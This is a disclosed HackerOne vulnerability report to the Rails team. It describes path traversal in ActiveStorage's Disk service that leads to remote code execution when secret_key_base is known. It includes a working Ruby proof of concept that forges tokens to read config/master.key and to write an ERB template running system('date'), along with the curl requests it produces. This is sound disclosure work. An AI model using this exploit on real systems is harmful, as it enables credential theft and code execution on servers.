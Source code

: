 # Path traversal in AcitveStorage, and lead RCE

## Report Details
- **Report ID**: 2334455
- **URL**: https://hackerone.com/reports/2334455
- **State**: Closed
- **Severity**: high
- **Submitted**: 2024-01-25T14:17:59.094Z
- **Disclosed**: 2024-10-08T20:26:06.327Z

## Reporter
- **Username**: ooooooo_q
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
The danger of deserialization has been reduced in Rails 7.1 by increasing the number of settings that do not use Marshal in MessageVerifier.

However, another danger remains with AcitveStorage(`service: Disk`), which allows path traversal using the `key` value. However, the attacker must know the value of `secret_key_base`.

### PoC

```
❯ ruby -v
ruby 3.2.3 (2024-01-18 revision 52bb2ac0a6) [arm64-darwin22]

❯ rails new disk_traversal_7_1 -G -M -C -A -J -T 
=>  Rails 7.1.3

❯ bin/rails active_storage:install

❯ RAILS_ENV=production bin/rails db:migrate
```

edit `config/production.rb`

```
# config.force_ssl = true
...

config.active_support.message_serializer = :json
```

start server

```
❯ RAILS_ENV=production bundle exec rails s
```

`traversal.rb`

```ruby
content_disposition = "inline"
content_type = "text/plain"
name = "disk"

secret_key_base = Rails.application.secret_key_base

key_generator = ActiveSupport::CachingKeyGenerator.new(ActiveSupport::KeyGenerator.new(secret_key_base, iterations: 1000))
secret = key_generator.generate_key("ActiveStorage")

serializer =  ActiveStorage.verifier.instance_variable_get(:@serializer)
puts serializer
puts "--"


key ="././../config/master.key"
verifier = ActiveSupport::MessageVerifier.new(secret, serializer: serializer)
read_token = verifier.generate(
          {
            key: key,
            disposition: content_disposition,
            content_type: content_type,
            service_name: name
          },
          purpose: :blob_key
        )

puts "read token:"
puts "#{read_token}"
puts "read curl: "
puts  "curl \"http://0.0.0.0:3000/rails/active_storage/disk/#{read_token}/test\""
puts "--"

target_file ="../app/views/users/show.text.erb"
content = "<% system('date') %>"
verifier = ActiveSupport::MessageVerifier.new(secret, serializer: serializer)
token_write = verifier.generate(
          {
            key: target_file,
            disposition: content_disposition,
            content_type: content_type,
            content_length: content.bytesize,
            service_name: name
          },
          purpose: :blob_token
        )

puts "write target_file:"
puts "#{target_file}"
puts "write token:"
puts "#{token_write}"
puts "write curl:"
puts "curl -X PUT -H \"Content-type: #{content_type}\" -d \"#{content}\" http://0.0.0.0:3000/rails/active_storage/disk/#{token_write}"
```

```
❯ RAILS_ENV=production bundle exec rails runner traversal.rb
W, [2024-01-25T22:57:10.036960 #16497]  WARN -- : You are running SQLite in production, this is generally not recommended. You can disable this warning by setting "config.active_record.sqlite3_production_warning=false".
ActiveSupport::Messages::SerializerWithFallback::JsonWithFallback
--
read token:
eyJfcmFpbHMiOnsiZGF0YSI6eyJrZXkiOiIuLy4vLi4vY29uZmlnL21hc3Rlci5rZXkiLCJkaXNwb3NpdGlvbiI6ImlubGluZSIsImNvbnRlbnRfdHlwZSI6InRleHQvcGxhaW4iLCJzZXJ2aWNlX25hbWUiOiJkaXNrIn0sInB1ciI6ImJsb2Jfa2V5In19--73bb9947997d2e2377b31f2bedd0a056f58deff7
read curl:
curl "http://0.0.0.0:3000/rails/active_storage/disk/eyJfcmFpbHMiOnsiZGF0YSI6eyJrZXkiOiIuLy4vLi4vY29uZmlnL21hc3Rlci5rZXkiLCJkaXNwb3NpdGlvbiI6ImlubGluZSIsImNvbnRlbnRfdHlwZSI6InRleHQvcGxhaW4iLCJzZXJ2aWNlX25hbWUiOiJkaXNrIn0sInB1ciI6ImJsb2Jfa2V5In19--73bb9947997d2e2377b31f2bedd0a056f58deff7/test"
--
write target_file:
../app/views/users/show.text.erb
write token:
eyJfcmFpbHMiOnsiZGF0YSI6eyJrZXkiOiIuLi9hcHAvdmlld3MvdXNlcnMvc2hvdy50ZXh0LmVyYiIsImRpc3Bvc2l0aW9uIjoiaW5saW5lIiwiY29udGVudF90eXBlIjoidGV4dC9wbGFpbiIsImNvbnRlbnRfbGVuZ3RoIjoyMCwic2VydmljZV9uYW1lIjoiZGlzayJ9LCJwdXIiOiJibG9iX3Rva2VuIn19--e4155a875021a762826b6240c24659acd99a738e
write curl:
curl -X PUT -H "Content-type: text/plain" -d "<% system('date') %>" http://0.0.0.0:3000/rails/active_storage/disk/eyJfcmFpbHMiOnsiZGF0YSI6eyJrZXkiOiIuLi9hcHAvdmlld3MvdXNlcnMvc2hvdy50ZXh0LmVyYiIsImRpc3Bvc2l0aW9uIjoiaW5saW5lIiwiY29udGVudF90eXBlIjoidGV4dC9wbGFpbiIsImNvbnRlbnRfbGVuZ3RoIjoyMCwic2VydmljZV9uYW1lIjoiZGlzayJ9LCJwdXIiOiJibG9iX3Rva2VuIn19--e4155a875021a762826b6240c24659acd99a738e
```

Access to read curl will get the file at any path, and access to write curl will write to any path and confirm the RCE.

## Impact

If `secret_key_base` is leaked, there is a risk of reading and writing files on the server and thereby an RCE.

## Attachments
No attachments
